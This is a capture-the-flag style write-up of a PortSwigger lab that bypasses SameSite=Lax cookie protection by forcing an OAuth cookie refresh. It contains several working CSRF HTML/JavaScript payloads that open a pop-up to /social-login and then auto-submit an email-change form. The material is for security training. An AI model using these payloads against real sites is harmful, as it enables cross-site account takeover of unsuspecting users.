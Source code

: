 # [`SameSite=Lax` Bypass via Cookie Refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)

`SameSite` cookies default to `Lax` unless explicitly set otherwise. However, because this can break SSO authentication flows, it isn't enforced for "top-level" POST requests for the first 120 seconds of the cookie's existence. "Top-level" here means anything that changes the URL in the location bar.

The lab target has an OAuth authentication flow that results in this cookie:

```text
Set-Cookie: session=ewNzZ8DFy40MB8IuCRmqO2koYyOiAPqY; Expires=Thu, 05 Jun 2025 17:42:20 UTC; Secure; HttpOnly
```

Because `SameSite` isn't specified it defaults to `SameSite=Lax`, but that isn't enforced for the first 120 seconds. If I can find a way to force a victim to refresh that cookie, I have a short window to deliver a second URL as the payload.

The following endpoint on this target redirects to the OAuth endpoint, refreshing the cookie:

```text
https://LAB_ID.web-security-academy.net/social-login
```

So, this target requires a two-stage exploit. First, the victim must be coerced into visiting `/social-login`, and after that request completes, a second POST request can be made to the `/my-account/change-email` endpoint, completing the exploit. A successful exploit could do this by providing a link for the user to click, thus allowing a pop-up window to refresh the cookie, and after a sufficient timeout the final payload (a form submit) is triggered.

Here is my original exploit, which works for the test user (`wiener`) but does _not_ work when delivered to the victim-bot:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="x@x.x">
</form>
<script>
  function x() { document.forms[0].submit(); }
  function r() {
    window.open('https://LAB_ID.web-security-academy.net/social-login', '_blank');
    setTimeout(x, 5000);
  }
</script>

<a href="#" onclick="r(); return false;">clickme</a>
```

Here is the functional PortSwigger suggested solution:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://LAB_ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

If the victim-bot arbitrarily clicks links then those two should be functionally equivalent, so I spent a while trying to figure out why my initial version wasn't working. I adjusted my exploit to use `window.onclick()` and it worked:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="x@x.x">
</form>
<script>
  function x() { document.forms[0].submit(); }
  window.onclick = () => {
    window.open('https://LAB_ID.web-security-academy.net/social-login', '_blank');
    setTimeout(x, 5000);
  }
</script>

<a href="#">clickme</a>
```

Why? So, while everything works fine for a human victim who clicks the link, maybe the way the victim-bot synthetically clicks links doesn't satisfy Chrome's definition for a "trusted user interaction", and so the pop-up would be blocked and the cookie wouldn't refresh? The switch from element-level to page-level handling might make a difference.

Often the victim-bot will just click links sent to it, but the hint for this lab needs to be taken very literally:

![](_/psa-samesite-lax-bypass-via-cookie-refresh-20250604-1.png)

The victim-bot in this lab seems clicks somewhere in the viewport. It doesn't click the link provided via the exploit.

Just for fun, I rewrote the original exploit to use a big image that fills the viewport, otherwise keeping things the same:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  …same as original exploit…
</script>

<a href="#" onclick="r(); return false;"
   style="position:fixed;top:0;left:0;width:100vw;height:100vh;
          background:url('https://labs.web-security-academy.net/files/avatar.png') center/cover no-repeat;
          display:block;border:0;"> </a>
```

That works just fine, although the `window.onclick` approach is cleaner given the bot's behavior.
